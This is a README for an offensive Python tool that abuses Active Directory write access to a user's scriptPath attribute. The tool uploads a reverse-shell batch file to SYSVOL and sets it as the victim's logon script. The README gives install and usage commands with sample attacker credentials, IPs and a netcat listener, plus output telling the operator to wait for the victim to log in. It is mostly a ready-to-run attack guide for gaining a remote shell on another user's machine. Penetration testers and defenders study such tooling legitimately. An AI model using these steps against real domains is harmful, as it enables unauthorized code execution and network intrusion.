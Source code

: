 # 🛠️ WriteScriptPath Tool

In Active Directory, the **scriptPath** attribute specifies a logon script that runs when a user logs in. This tool helps you upload a script to the SYSVOL share and assign it to a user’s **scriptPath** attribute, enabling automated script execution on user login — useful for administration, automation, or testing.

---

##  What Is WriteScriptPath?

In Active Directory, the `scriptPath` attribute defines a logon script that runs when a user logs in. If an attacker has **Write access to this attribute** on another user account, they can abuse it to:

- Upload a malicious script to the `\\<domain>\SYSVOL\<domain>\scripts\` share
- Set that script as the target user's logon script
- Gain **code execution** when the victim logs in

---

## ⚙️ Requirements

- Python 3.x
- `ldap3` and `impacket` Python libraries
- Valid domain user credentials with **WriteScriptPath** privilege on the target user
- Access to the Domain Controller (DC)
- A listener to catch the reverse shell (e.g. `nc -lvnp 4444`)


##  Installation

```bash
https://github.com/furious-05/pyWriteScriptPath.git
cd writescriptpath-exploit
pip install -r requirements.txt
````

> **Note**: `requirements.txt` should include:
>
> ```
> ldap3
> impacket
> ```


##  Usage

```bash
python3 pyWriteScriptPath.py \
  --domain furious \
  --username jake \
  --password 'Pass1234' \
  --target john \
  --dc-ip 192.168.1.10 \
  --listener-ip 192.168.1.100 \
  --listener-port 4444
```

###  Arguments Explained

| Argument          | Description                                         |
| ----------------- | --------------------------------------------------- |
| `--domain`        | The Active Directory domain (e.g., `furious`)       |
| `--username`      | Your (attacker’s) domain username                   |
| `--password`      | The attacker's password                             |
| `--target`        | The username of the target account                  |
| `--dc-ip`         | IP address of the Domain Controller                 |
| `--listener-ip`   | Your IP (where reverse shell should connect)        |
| `--listener-port` | Port on which your listener is running (e.g., 4444) |


## ⚙️ What Happens Behind the Scenes

1.Uploads the specified script file to the SYSVOL scripts share.
 
   ```
   \\<domain>\SYSVOL\<domain>\scripts\rev.bat
   ```
2.Sets the target user’s scriptPath attribute to point to the uploaded script.

3.The script runs on the user’s next login.


##  Example

```bash
nc -lvnp 4444  # Start your listener

python3 pyWriteScriptPath.py \
  --domain furious \
  --username jake \
  --password 'Pass1234' \
  --target john \
  --dc-ip 192.168.1.10 \
  --listener-ip 192.168.1.100 \
  --listener-port 4444
```


##  Output

```
[+] Connected to LDAP
[+] Payload uploaded to SYSVOL as rev.bat
[+] scriptPath updated for user john
[+] Done. Wait for the user to log in to trigger the payload.
```


---

## 👨‍💻 Author

Munib Nawaz
Pentester & Offensive Security Researcher

---

